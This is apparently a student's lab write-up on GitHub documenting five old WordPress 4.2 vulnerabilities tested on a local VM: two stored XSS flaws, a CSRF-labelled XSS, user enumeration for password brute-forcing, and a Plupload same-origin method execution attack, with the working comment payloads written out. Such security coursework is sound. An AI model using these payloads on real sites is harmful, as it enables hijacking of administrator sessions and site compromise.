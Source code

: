 # Project 7 - WordPress Pentesting

Time spent: **8** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Authenticated Shortcode Tags XSS

- [x] Summary:
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.7.2
- [x] GIF Walkthrough:
  ![](XSS.gif)
- [x] Steps to recreate:
  1. Login as admin, write in the comment section:
  ```html
  <a href = "XSS" onmouseover=alert(1) rel="nofollow">CLICK ME!</a>
    ```
  2. Hover over your mouse to the "CLICK ME!" link.
- [x] Affected source code:
  - [Link 1](https://github.com/WordPress/WordPress/commit/f72b21af23da6b6d54208e5c1d65ececdaa109c8)

2. (Required) Persisten CSRF

- [x] Summary:
  - Vulnerability types: CSRF
  - Tested in version: 4.2
  - Fixed in version: 4.7.2
- [x] GIF Walkthrough:
  ![](CSRF.gif)
- [x] Steps to recreate:
  1. On admin, in the comment section of the post, comment:
  ``` html
  <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px AAAAAAAAAAAA...[64 KB]..AAA'></a>
  ```
  2. Make sure that the A character length provided is at least 64kb.
- [x] Affected source code:
  - [Link 1](https://www.exploit-db.com/exploits/36844/)

3. (Required) User Enumeration

- [x] Summary:
  - Vulnerability types: User Enumeration
  - Tested in version: 4.2
  - Fixed in version: 4.4
- [x] GIF Walkthrough:
  ![](User_Enumeration.gif)
- [x] Steps to recreate:
  1. Go to the login page of WordPress.
  2. Start by typing in any username and password combinations.
  3. In version 4.2 of WordPress, if you enter in a correct username i.e admin, it will display a message saying
     the username is valid.
  4. Now, knowing the username, you can brute froce the password until you get the correct password.
- [x] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

4. (Optional) Pupload Same-Origin Method Execution attack

- [x] Summary:
  - Vulnerability types: SOME
  - Tested in version: 4.2
  - Fixed in version: 4.2.8
- [x] GIF Walkthrough:
  ![](SOME.gif)
- [x] Steps to recreate:
  1. In the "leave a reply" section, inside the comment box, type in:
  ```html
	<button onclick="fire()">Click</button>
	<script>
		function fire() { 
			open('javascript:setTimeout("location=\'http://wpdistillery.vm/wp-includes/js/plupload/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
  			setTimeout('location="http://wpdistillery.vm/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
		}
	</script>
  ```

  2. Click on the "Click" Button on the newly reply post that appeared.
- [x] Affected source code:
  - [Link 1](https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e)

5. (Optional) Audio Playlist XSS
- [x] Summary:
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.7.3
- [x] GIF Walkthrough:
  ![](XSS2.gif)
- [x] Steps to recreate:
  1. Download the audio file from this link - [audio](https://www.securify.nl/advisory/SFY20160742/xss.mp3)
  2. Upload the audio file into the media library
  3. Create a page with audio file as a playlist
- [x] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/changeset/33359)

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

One of the challenge I encounter was trying to get some of the exploits to work as intended.

## License

    Copyright [2018] [Gerry Xu]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

